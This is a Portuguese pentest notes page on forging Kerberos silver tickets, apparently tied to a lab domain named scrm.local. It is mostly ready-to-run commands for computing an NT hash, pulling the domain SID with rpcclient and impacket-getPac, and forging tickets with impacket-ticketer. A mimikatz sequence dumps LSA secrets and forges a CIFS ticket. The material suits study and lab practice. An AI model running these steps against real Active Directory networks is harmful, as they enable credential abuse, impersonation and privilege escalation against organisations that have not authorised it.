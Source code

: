 SiverTicket
========================

Até aqui a gente já deve obter as credenciais da conta SPN seguindo o que está escrito na página anterior. ([Kerberoasting](Kerberoasting.md))

No entanto, é necessário mais algumas informações pra que a gente consiga fazer o silver ticket, que consiste em gerar um ticket de SPN com as permissões que quisermos (full que seria o default das ferramentas, ou podemos setar as quais quisermos) para obter versatilidade nos recursos de rede para escalada de privilégio.

### 1 - Hash NTLM do SPN

Então precisaremos do hash nt da senha do serviço spn:

```
iconv -f ASCII -t UTF-16LE <(printf "Password") | openssl dgst -md4
```

ou

```
python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "Password".encode("utf-16le")).digest()))'
```

### 2 - Domain SID

Outra informação que precisamos é o domain SID que podemos obter de diversas formas, sendo elas

#### via RPC

```
rpcclient -U user <hostname>
lookupnames username
```

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>Domain SID</p></figcaption></figure>

#### via impacket (remotely)

```
impacket-getPac domain/username:password -targetUser username
##Exemplo
impacket-getPac scrm.local/ksimpson:ksimpson -targetUser ksimpson
```

### 3 - SPN

O nome do SPN basicamente já teremos seguindo os passos anteriores documentados em [Kerberoasting](Kerberoasting.md).

Depois disso, podemos gerar o silver ticket de maneira remota ou local na máquina da vítima:

#### impacket

```
impacket-ticketer -spn 'MSSQLSvc/dc1.scrm.local:1433' -domain domain.name -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -nthash ntlm_da_senha_do_spn -dc-ip hostname.dodc adm
```

Exemplo

```
impacket-ticketer -spn 'MSSQLSvc/dc1.scrm.local:1433' -domain scrm.local -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -nthash b999a16500b87d17ec7f2e2a68778f05 -dc-ip dc1.scrm.local adm
```

FAZENDO COM O HASH DE SENHA DA MÁQUINA

```
mimikatz.exe
privilege::debug
lsadump::lsa /patch
kerberos::golden /user:admin /domain:scrm.local /sid:S-1-5-21-2743207045-1827831105-2542523200 /target:DC1.scrm.local /service:cifs /rc4:a4ce9e577c1298c759340f09b3546950 /ticket:c:\temp\test_cifs.kirbi
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

